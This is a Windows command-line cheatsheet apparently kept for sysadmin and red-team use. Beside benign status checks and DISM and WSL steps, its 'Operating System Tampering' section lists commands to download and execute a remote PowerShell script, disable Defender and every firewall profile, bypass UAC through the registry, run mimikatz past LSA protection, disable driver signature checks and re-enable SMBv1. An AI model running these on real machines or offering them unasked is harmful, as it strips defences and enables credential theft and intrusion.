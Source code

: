 ```yaml
---
layout: post
title: Sysadmin CLI WIN
category: Sysadmin
parent: Sysadmin
grand_parent: Cheatsheets
modified_date: 2021-11-17
permalink: /:categories/:title/
---
```

<!-- vscode-markdown-toc -->
* 1. [Security Checks](#SecurityChecks)
	* 1.1. [configure ip address](#configureipaddress)
	* 1.2. [listing kb](#listingkb)
	* 1.3. [windows firewall status](#windowsfirewallstatus)
	* 1.4. [windows defender status](#windowsdefenderstatus)
* 2. [Operating System Tampering](#OperatingSystemTampering)
	* 2.1. [donwload ps activedirectory module](#donwloadpsactivedirectorymodule)
	* 2.2. [windows defender: disable](#windowsdefender:disable)
	* 2.3. [windows firewall: disable](#windowsfirewall:disable)
	* 2.4. [windows uac: bypass](#windowsuac:bypass)
	* 2.5. [Windows lsaprotection: bypass](#Windowslsaprotection:bypass)
	* 2.6. [Windows driver signature: disable](#Windowsdriversignature:disable)
	* 2.7. [SMBv1: enable](#SMBv1:enable)
* 3. [Windows DISM](#WindowsDISM)
* 4. [Windows WSL manual distro install](#WindowsWSLmanualdistroinstall)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

##  1. <a name='SecurityChecks'></a>Security Checks

###  1.1. <a name='configureipaddress'></a>configure ip address
```batch
netsh
interface ip set address "connection name" static 192.168.1.1 255.255.255.0 192.168.1.254
```
###  1.2. <a name='listingkb'></a>listing kb
```batch
wmic qfe list full /format:table
```

###  1.3. <a name='windowsfirewallstatus'></a>windows firewall status
```batch
# logfile: %systemroot%\system32\LogFiles\Firewall\pfirewall.log
netsh advfirewall show allprofiles
```

###  1.4. <a name='windowsdefenderstatus'></a>windows defender status
```batch
powershell -inputformat none -outputformat text -NonInteractive -Command 'Get-MpPreference | select -ExpandProperty "DisableRealtimeMonitoring"'
```

##  2. <a name='OperatingSystemTampering'></a>Operating System Tampering

###  2.1. <a name='donwloadpsactivedirectorymodule'></a>donwload ps activedirectory module 
```batch
#version 1
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```

###  2.2. <a name='windowsdefender:disable'></a>windows defender: disable
```batch
powershell.exe -Command Set-MpPreference -DisableRealtimeMonitoring $true
```


###  2.3. <a name='windowsfirewall:disable'></a>windows firewall: disable
```batch
netsh advfirewall set publicprofile state off
netsh advfirewall set privateprofile state off
netsh advfirewall set domainprofile state off
netsh advfirewall set allprofiles state off
```

###  2.4. <a name='windowsuac:bypass'></a>windows uac: bypass
```batch
powershell New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value cmd.exe -Force
```

###  2.5. <a name='Windowslsaprotection:bypass'></a>Windows lsaprotection: bypass
```batch
powershell .\ConsoleApplication1.exe/InstallDriver
powershell .\ConsoleApplication1.exe/makeSYSTEMcmd
powershell .\mimikatz.exe
```

###  2.6. <a name='Windowsdriversignature:disable'></a>Windows driver signature: disable
```batch
bcdedit.exe /set nointegritychecks on
bcdedit.exe /set testsigning on
```

###  2.7. <a name='SMBv1:enable'></a>SMBv1: enable
```batch
DISM /online /enable-feature /featurename:SMB1Protocol
DISM /online /enable-feature /featurename:SMB1Protocol-Client
DISM /online /enable-feature /featurename:SMB1Protocol-Server
DISM /online /enable-feature /featurename:SMB1Protocol-Deprecation
```

##  3. <a name='WindowsDISM'></a>Windows DISM
```batch
# Pre requisites: Admin rights
# get all windows feature and save to a txt file
DISM /online /get-features /format:table > C:\Temp\dism_listing.txt
get-windowsoptionalfeature -online | ft | more

# get windows feature that are enable/disable
DISM /online /get-features /format:table | find “Enabled” | more
DISM /online /get-features /format:table | find “Disabled” | more

# get windows feature by its name
DISM /online /get-featureinfo /featurename:Microsoft-Windows-Subsystem-Linux
DISM /online /get-featureinfo /featurename:TelnetClient
get-windowsoptionalfeature -online -featurename SMB1Protocol*
get-windowsoptionalfeature -online -featurename SMB1Protocol* |ft
```

##  4. <a name='WindowsWSLmanualdistroinstall'></a>Windows WSL manual distro install
```
# Note: By pass the GPO blocking the exec of the App Store app

Enable-WindowsOptionalFeature -Online -FeatureName Microsoft-Windows-Subsystem-Linux
New-Item C:\Ubuntu -ItemType Directory
Set-Location C:\Ubuntu
Invoke-WebRequest -Uri https://aka.ms/wsl-ubuntu-1604 -OutFile Ubuntu.appx -UseBasicParsing
Invoke-WebRequest -Uri https://aka.ms/wslubuntu2004 -OutFile Ubuntu.appx -UseBasicParsing
Invoke-WebRequest -Uri https://aka.ms/wsl-kali-linux-new -OutFile Kali.appx -UseBasicParsing
 
# Extract and execute the EXE in the archive to install the distro
Rename-Item .\Ubuntu.appx Ubuntu.zip
Expand-Archive .\Ubuntu.zip -Verbose
Ubuntu.exe

# List the distributions installed
wslconfig /list /all
wsl -l
```
